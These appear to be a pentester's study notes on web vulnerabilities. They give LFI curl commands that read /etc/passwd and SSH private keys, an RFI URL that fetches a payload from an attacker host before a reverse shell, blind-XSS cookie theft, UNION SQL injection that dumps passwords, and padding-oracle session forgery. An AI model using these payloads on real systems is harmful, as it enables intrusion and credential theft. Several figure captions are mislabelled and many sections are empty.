









Web Vulneratilities
LFI (Local File inclusion)
/etc/passwd /etc/group
curl -s "http://localhost/example.php?file=/etc/passwd" | grep "sh$"
curl -s "http://localhost/example.php?file=/home/looping/.ssh/id_rsa"/proc/shed_debug /proc/net/fib_trie
curl -s "http://localhost/example.php?file=/proc/net/fib_trie" | grep -i "host local" -B 1 | grep -oP '\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}' | sort -u/proc/net/tcp
for port in $(curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v "local_address" | awk -F ':' '{print $2}' | sort -u); do echo "[$port] -> Port number $(echo "ibase=16; $port" | bc); done
lsof -i:<port>[ ! ] Note: Be carefull to path traversal ?file=/../../../../../../../etc/passwd
[ ! ] Note: Try also null byte and interogation at the end (%00 or ?) at the end -> ../../../etc/passwd%00 or ../../../etc/passwd?
Chrome check file as raw Ctrl+u
Wrappers
Log Poisoning
Log Poisoning allows user to execute command remote system using logs files. This technic comes basicaly after finding a LFI vulnerability and is used for gaining access to the victim system by generating a reverse shell.
Apache2
RFI (Remote File inclusion)
RFI is a vulnerability similar to the LFI but using a necessary third part. Instead of looking for internal files, RFI vulnerability allows the system or the service to look also, throw internet, of files from services located in an external Server.
Let’s take the example of an existing RFI vulnerability from gwolle-gb wordpress plugin:
wfuzz -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://127.0.0.1/fuzz
#Output
Payload : "wp-content/plugins/gwolle-gb"
searchsploit gwolle
#Output
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File inclusion | php/webapps/38861.txt
searchsploit -x php/webapps/388861.txt
#Output
HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]In this case you can see that because of the fact that this plugin is not properly sanitized, the require method is looking for a wp-load.php file that can come from another computer.
download php reverse shell example
listen to port 443
send the RFI
That’s it
HTML Injection
HTML Injection is a vulnerability that allows people to insert, most probably via a input text, a html tag. This vulnerability can
be verified in a forum or a notes application for example by inserting <h1>test</h1> or a <marquee>this note will move</marquee> and if the
result is interpreted, that means that the application is vulnerable to HTML Injection and most probably to XSS Injection
XSS (Cross site scripting)
XSS Injection comes from the family of HTML Injection and use the <script /> tag for using javascript and inject commands via a programming
language. This technic is commonly used for change session cookies content.
XSS Blind
XSS Blind is the common way to sleal the session cookie of a user by sending the information to a third part server.
Attacker create a small web server
Attacker put the malicious XSS script on the web app
Read the cookie on the small web server
Attacker can now update the cookie with the EditThisCookie chrome extension.
CSRF (Cross-site Request Forgery)
CSRF is a vulnerability that allows attacker to send a request for example a form that normaly is send by the method POST throw another method like GET. It’s commonly used in order to change a password. The attacker is now able to send a link that will change automatically the password of a victim.
Imagine that there is a function in a web app that allows user to change their password. The Request in BurpSuite will probably look like that.
Figure 4: csrf post request
To check if this web app is vulnerable to CSRF, with BurpSuite right click and selecting change request method and you will se that the request has now changed to a GET method and looks like the following
Figure 5: csrf updated to GET
If this change allows still user to change his password that means that this app is vulnerable to CSRF and attacker can send this link to the victim in order to change his password with the attacker desired password.
[ ! ] NOTE: In order to send another url text than the normal one, use a URL SHORTENER like bitly or others. (???) Estoy siguiendo tus cursos por el momento youtube de web pentest y tenia una pregunta, se puede hacer un cross site request forgery con un cross site scripting javascript?
SSRF (Server-Side Request Forgery)
A big difference bitween CSRF and SSRF is that with Server-Side Request Forgery, attacker doesn’t need to interact with the victim to exploit the vulnerability. Attacker can use this vulnerability to send commands at server level.
SQL Injection - Error Based
An Error based SQL Injection is a type of sql injection that profit to a syntax error attack type. Attacker can then profit those errors to list priviledge informations.
MySql [database]> select username,password from users where id = 1 ';
#Output
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that correspond to you MySqlDB server version for the right syntax to use near '''' at line 1 [ ! ] NOTE: The error here comes from the ’ at the end of the line.
Figure 6: sql error based on screen
How can Attacker take profit of this vulnerability:
List total number of column of the table
MySql [database]> select * from users order by 100; #Output ERROR 1054 (42S22): Unknown column '100' in 'order clause' MySql [database]> select * from users order by 4; #Output +----+----------+----------+---------+ | id | username | password | email | +----+----------+----------+---------+ | 2 | zeto | test1234 | a@a.com | | 3 | rob2 | test3434 | b@b.com | | 1 | arif2 | test2331 | c@c.com | +----+----------+----------+---------+Figure 7: sql error based order by 100
Get column names
MySql [database]> select * from users union select 1,2,3,4; #Output +----+----------+----------+---------+ | id | username | password | email | +----+----------+----------+---------+ | 2 | zeto | test1234 | a@a.com | | 3 | rob2 | test3434 | b@b.com | | 1 | arif2 | test2331 | c@c.com | | 1 | 2 | 3 | 4 | +----+----------+----------+---------+ # Also possible with strings and functions MySql [database]> select * from users union select 1,"test",3,database(); #Output +----+----------+----------+---------+ | id | username | password | email | +----+----------+----------+---------+ | 2 | zeto | test1234 | a@a.com | | 3 | rob2 | test3434 | b@b.com | | 1 | arif2 | test2331 | c@c.com | | 1 | test | 3 | database| +----+----------+----------+---------+Usefull functions to be used in order to retrieve relevant informations:
- database()
- user()
- load_file(‘/etc/passwd’)
Get all the table names from database
Get all databases
MySql [database]> select * from users union select schema_name,2,3,4 from information_schema.schemata; MySql [database]> select * from users union select schema_name,2,3,4 from information_schema.schemata limit 1,1; #show the first database MySql [database]> select * from users union select schema_name,2,3,4 from information_schema.schemata limit 2,1; #show the second databaseGet Columns name of a table
Display User and Passwords
MySql [database]> select * from users union select concat(username,0x3a,password),2,3,4 from database.users;or with group concat
[ ! ] NOTE: In a web app you might need to finish the sql injection by – -
[ ! ] NOTE: sometimes quotes or double quotes can not be used in web services url, but you can bypass that by using hexadecimal value
echo "database" | xxd -ps-> 64617461626173650a so table_schema = “database” is the same as table_schema = 0x6461746162617365
SQL Injection - Time Based
SQL Injection time based is a technic that attacker can use when the database is not visiblie (Blind) in the web application. The purpose is the same as the sql injection error based but needs a sleep(5) function to guess the searched values.
SQL Injection - Boolean Based
SQL Injection boolean based is a kind of error based technic. The difference here is that the attacker is not looking at the information because it is not revealed by the web app. The only thing that the attacker know is if it’s sql command get an error or not. As the time time based technic, the attacker use that to guess the searched value. In this case, SQLMap is usefull.
SQLMap
SQLMap is an automatic tool that perform sql injections.
Padding Oracle Attack (Padbuster)
Recover cookie session and name
Decode cookie with padbuster
[ ! ] NOTE: If you see that the webapp is vulnerable to padding oracle attack, that the user admin is valid and you see that the webapp have a Registration page you can, you can put as a username admin= and you will be logged as admin manualy.
Padding Oracle Attack (Bit Flipper Attack - BurpSuite)
The Bit Flipper attack is an attack that takes the cookie of a user created with a very similar name as the victim name and flip Bits in order to retrieve the desired session cookie
create a user name very similar as the victim (in this case bdmin for admin)
Figure 8: sql error based order by 100
check the session cookie of user bdmin with BurpSuite
Figure 9: sql error based order by 100
Ctrl+i to emit that to the BurpSuite intruder and go to intruder Positions to do a Sniper Attack
Figure 10: sql error based order by 100
Go to Payloads and select Bit flipper in payload type, Literal value in Format original data, select all the bits and uncheck Url encode these characters
Figure 11: sql error based order by 100
Go to option and add a Grep Extract
Add Grep Extract
Figure 12: sql error based order by 100
Fetch Response
Figure 13: sql error based order by 100
Generate regexp by selecting the output you want to analyse
Figure 14: sql error based order by 100
Click on start attack button
Figure 15: sql error based order by 100
Find and select a row where you see You are currently logged in as admin!
You can then copy the payload and past it in a EditThisCookie tool.
ShellShock
XXE (XML External Entity Injection)
Blind XXE
Domain Zone Transfer
Insecure Deserialization
Type Juggling
SSTI
Flask/Jinja2 -> Server Side Template Injection